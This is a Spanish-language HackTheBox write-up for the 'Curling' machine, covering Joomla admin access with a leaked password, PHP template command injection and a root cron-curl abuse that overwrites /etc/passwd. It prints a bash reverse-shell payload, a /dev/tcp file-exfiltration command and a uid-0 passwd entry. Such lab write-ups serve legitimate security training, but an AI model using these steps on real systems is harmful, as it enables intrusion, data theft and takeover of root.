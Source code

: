 ```yaml
---
title: HackTheBox - Curling
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Crontab Exploitation (curl)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Curling/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Curling Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Crontab Exploitation (curl)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Curling/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Curling/02-versions.png)

c. Al inspeccionar el sitio web encontramos **un nombre de usuario** y un fichero **secret**

![](/assets/images/HTB/Easy/Curling/03-web.png)

* La cadena que obtenemos al visitar el fichero 'secret.txt' está encodeada en base64

    ```bash
    ❯ echo -n 'Q3VybGluZzIwMTgh' | base64 -d
    Curling2018!
    ```

* Nos autenticamos en el panel de administrador de Joomla (**/administrator**)

    ![](/assets/images/HTB/Easy/Curling/04-joomla.png)

d. Para ejecutar comandos, inyectamos una sentencia php en un template de error

![](/assets/images/HTB/Easy/Curling/05-rce.png)

* Para ejecutar comandos vamos a la ruta `http://<IP Curling>/templates/protostar/error.php?cmd=[Comando]`. Ahora, entablamos una reverse shell

```bash
Payload = bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<tun0 IP>/<Puerto>%200%3E%261%22
----------------------------------------------------------------------------------------
❯ nc -lvnp 443
www-data@curling:/var/www/html/templates/protostar$
```

### Escalada de Privilegios 💹

a. El usuario **floris** tiene un fichero password_backup el cual transferiremos a nuestra máquina

```bash
❯ nc -lvnp 4444 > password_backup
---------------------------------------------------------------------------------
www-data@curling:/home/floris$ cat < password_backup > /dev/tcp/10.10.14.18/4444
```

* El contenido del archivo lo pasamos por [**CyberChef**](https://gchq.github.io/CyberChef/). Veremos una posible credencial

    ![](/assets/images/HTB/Easy/Curling/06-password.png)

b. Veremos si la cadena anterior puede ser la contraseña del usuario **floris**

```bash
❯ ssh floris@10.10.10.150
floris@10.10.10.150's password: 5d<wdCbdZu)|hChXll
floris@curling:~$ 
```

c. Subimos [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) para saber si existen tareas cron ejecutándose en el sistema

```bash
floris@curling:~$ ./pspy64 

<SNIP>
2023/09/13 23:07:01 CMD: UID=0     PID=2220   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

* Puntos Principales:
    + [x] El usuario **root** ejecuta esta tarea.
    + [x] La opción `-K` en curl sirve para indicar un archivo de configuración en el que podemo indicar un url de la cual conseguirá la información y donde queremos que la guarde

d. Con lo anterior en mente, podemos indicar que queremos sobreescribir el fichero **`/etc/passwd`**, para añadir un nuevo usuario con lo mismo privilegios que root

* Copiamos el fichero '/etc/passwd' de la Máquina Curling.
* Con openssl generamos una contraseña válida (En el ejemplo la contraseña es **hola**)
* Agregamos el usuario 'evil' al final del archivo '/etc/passwd' copiado y montamos un servidor http con python

    ```bash
    ❯ tail -n 1 passwd
    evil:$1$4NQ2IHzW$TtycSVMvW6nOiprAtnxZK/:0:0::/home:/bin/bash
    -------------------------------------------------------------
    ❯ python -m http.server 80
    ```

* Modificamos el fichero **input**

    ```bash
    floris@curling:~/admin-area$ cat input 
    url = "http://<tun0 IP>/passwd"
    output = "/etc/passwd"
    ```

c. El usuario evil será válido en el sistema y si nos convertirmos en él, tendremos permisos como root

```bash
floris@curling:~/admin-area$ tail -n 1 /etc/passwd
evil:$1$4NQ2IHzW$TtycSVMvW6nOiprAtnxZK/:0:0::/home:/bin/bash
floris@curling:~/admin-area$ su evil
Password: hola
root@curling:~/floris/admin-area#
```